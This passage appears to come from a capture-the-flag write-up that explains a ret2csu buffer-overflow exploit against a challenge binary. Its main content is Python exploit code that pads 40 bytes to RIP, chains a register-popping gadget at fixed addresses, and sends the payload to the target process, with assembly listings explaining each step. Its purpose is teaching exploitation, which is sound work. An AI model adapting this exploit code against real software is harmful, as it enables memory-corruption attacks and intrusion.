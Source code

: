 Awesome! Everything seems to be right. Now, we will go through second payload:-

# Payload: Part 2

Now, this payload is crucial since this is where the actual `ret2csu` is, I'll try to explain as much as I can:-

```python

payload = b"A"*40 # Padding to `RIP` register
payload += p64(0x40068a) 

'''
0x000000000040068a <+90>:	pop    rbx
   0x000000000040068b <+91>:	pop    rbp
   0x000000000040068c <+92>:	pop    r12
   0x000000000040068e <+94>:	pop    r13
   0x0000000000400690 <+96>:	pop    r14
   0x0000000000400692 <+98>:	pop    r15
   0x0000000000400694 <+100>:	ret    

'''
payload += p64(0x00) # Passed to `rbx` register
payload += p64(0x01) # Passed to `rbp`
payload += p64(0x600e38) # Passed to `r12` 
payload += p64(writable_address) # Passed to `r13`
payload += p64(0x00) # Passed to `r14`
payload += p64(0x00) # Passed to `r15`

```

So, as you remember the following instructions:-

```asm
   0x0000000000400670 <+64>:	mov    rdx,r15
   0x0000000000400673 <+67>:	mov    rsi,r14
   0x0000000000400676 <+70>:	mov    edi,r13d
```

That's why we provided the value we wanted in `rdx`, `rsi` and `rdi` to `r15`, `r14` and `r13` respectively. The values passed to `rbx` and `rbp` have their importance when we call next chain. But first, let's run the script and attach it to gdb such that we can check content registers:-

```python
payload += p64(0x00) # Passed to `rbx` register
payload += p64(0x01) # Passed to `rbp`
payload += p64(0x600e38) # Passed to `r12` 
payload += p64(writable_address) # Passed to `r13`
payload += p64(0x00) # Passed to `r14`
payload += p64(0x00) # Passed to `r15`

p.sendlineafter(b"warrior\n", "Robin")
pause()
p.sendlineafter(b"me?\n", payload)
p.interactive()
```
